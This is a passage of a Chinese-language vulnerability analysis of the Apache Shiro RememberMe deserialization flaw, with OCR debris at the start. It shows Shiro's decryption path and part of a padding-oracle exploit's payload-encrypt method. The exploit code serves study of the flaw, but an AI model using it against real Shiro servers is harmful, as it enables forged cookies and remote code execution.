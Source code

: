 ```
`}`
```

其中ivSize是128，BITS_PER_BYTE是8，所以iv的长度就是16

并且将数组的前16为取作为IV，然后再传入下一个解密方法

```
private ByteSource decrypt(byte[] ciphertext, byte[] key, byte[] iv) throws CryptoException `{`
if (log.isTraceEnabled()) `{`
log.trace("Attempting to decrypt incoming byte array of length " +
(ciphertext != null ? ciphertext.length : 0));
`}`
byte[] decrypted = crypt(ciphertext, key, iv, javax.crypto.Cipher.DECRYPT_MODE);
return decrypted == null ? null : ByteSource.Util.bytes(decrypted);
`}`
```

这里的crypt方法会检测填充是否正确

将处理后的数据一步步返回给convertBytesToPrincipals方法中的deserialize(bytes)

其实就是org.apache.shiro.io.DefaultSerializer的deserialize方法

造成最终的反序列化漏洞。



### **六、利用代码分析**

我本来想直接贴代码注释的，但是想了想，不如用图文并茂的方式来呈现。更能让读者理解，同时也能激发读者的空间想象力带入到程序的运行步骤中。

就先从encrypt方法开始吧

```
public String encrypt(byte[] nextBLock) throws Exception `{`
logger.debug("Start encrypt data...");
byte[][] plainTextBlocks = ArrayUtil.splitBytes(this.plainText, this.blockSize); //按blocksize大小分割plainText
 
if (nextBLock == null || nextBLock.length == 0 || nextBLock.length != this.blockSize) `{`
logger.warn("You provide block's size is not equal blockSize,try to reset it...");
nextBLock = new byte[this.blockSize];
`}`
byte randomByte = (byte) (new Random()).nextInt(127);
Arrays.fill(nextBLock, randomByte);
 
byte[] result = nextBLock;
byte[][] reverseplainTextBlocks = ArrayUtil.reverseTwoDimensionalBytesArray(plainTextBlocks);//反转数组顺序
this.encryptBlockCount = reverseplainTextBlocks.length;
logger.info(String.format("Total %d blocks to encrypt", this.encryptBlockCount));
 
for (byte[] plainTextBlock : reverseplainTextBlocks) `{`
nextBLock = this.getBlockEncrypt(plainTextBlock, nextBLock); //加密块，
result = ArrayUtil.mergerArray(nextBLock, result); //result中容纳每次加密后的内容
 
this.encryptBlockCount -= 1;
logger.info(String.format("Left %d blocks to encrypt", this.encryptBlockCount));
`}`
 
logger.info(String.format("Generate payload success, send request count =&gt; %s", this.requestCount));
 
return Base64.getEncoder().encodeToString(result);
`}`
```
